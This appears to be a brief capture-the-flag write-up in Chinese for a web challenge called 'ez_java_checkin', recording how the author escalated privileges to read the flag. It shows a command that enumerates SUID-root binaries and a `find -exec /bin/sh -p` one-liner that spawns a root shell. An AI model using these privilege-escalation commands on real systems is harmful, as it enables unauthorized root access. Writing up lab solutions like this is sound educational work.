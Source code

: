 ## Web
### ez_java_checkin
工具梭哈

![](attachments/Pasted%20image%2020230817162152.png)

flag 需要权限
`find / -user root -perm -4000 -print 2>/dev/null`

![](attachments/Pasted%20image%2020230817163042.png)

`find . -exec /bin/sh -p \; -quit`

![](attachments/Pasted%20image%2020230817163220.png)